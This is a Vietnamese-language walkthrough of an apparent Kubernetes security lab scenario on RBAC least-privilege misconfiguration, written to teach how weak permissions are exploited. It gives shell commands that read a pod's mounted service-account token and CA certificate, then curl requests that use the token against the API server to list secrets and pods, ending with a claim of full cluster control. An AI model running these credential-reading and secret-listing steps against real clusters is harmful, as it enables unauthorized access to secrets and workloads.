

# RBAC Least Privileges Misconfiguration

Chúng ta thường thấy trong thực tế các deverloper hay devops thường cung cấp quyền truy cập cho user nhiều hơn yêu cầu. Điều này làm cho attacker có cơ hội kiểu soát hệ thống nhiều hơn. Trong kịch bản này, tác giả đã cho bạn tận dụng `accountservice` được liên kết với `pod` để truy cập vào `webhookapikey `. Tuy nhiên, bằng cách này `attaker` có thể kiểm soát các `resource` hay `secret` của hệ thống. Cụ thể trong kịch bản này là `vaultapikey`.

# Scenario Solution

```
Việc triển khai này có tài khoản dịch vụ tùy chỉnh được ánh xạ với chính sách / quyền truy cập quá dễ dãi. Chính vì thế attacker có thể lợi dụng để truy cập vào các tài nguyên dịch vụ khác
```


Vì K8s lưu tất cả các secrets, token và thông tin về serviceaccount tại thư mục măc định, di chuyển đến folder đó để tìm kiếm các thông tin hữu ích.

```sh
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -larth
```


Ta có thể thấy các thông tin cầu thiết để có thể thiết lập giao tiếp với k8s cluster. Thực tế ta không biết được token này có quyền truy cập những gì nên hãy cố gắng thử tất cả các API.

Đầu tiên, kiểm tra các thông tin về clusterL

```sh
printenv
```


Set biến môi trường cho các thông tin cần thiết:

- To point to the internal API server hostname

```sh
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

- To set the path to ServiceAccount token

```sh
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

- To read the pods namespace and set that as a variable

```sh
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

- To read the ServiceAccount bearer token

```sh
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```

- To point the CACERT path to use while querying in the CURL requests

```sh
export CACERT=${SERVICEACCOUNT}/ca.crt
```

Bây giờ, có thể tương tác với k8s server với các tính năng sau:

- Kiểm tra API server

```sh
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```


- Truy vấn secret ở default namespace

```sh
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```


- Get tất cả các pod trên namespace chỉ định

```sh
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```



Đến đây, bạn có thể tương tác với k8s cluster như một máy master, làm bất kì gì bạn mât như xóa, tạo, edit pods... Tóm lại là như full control.
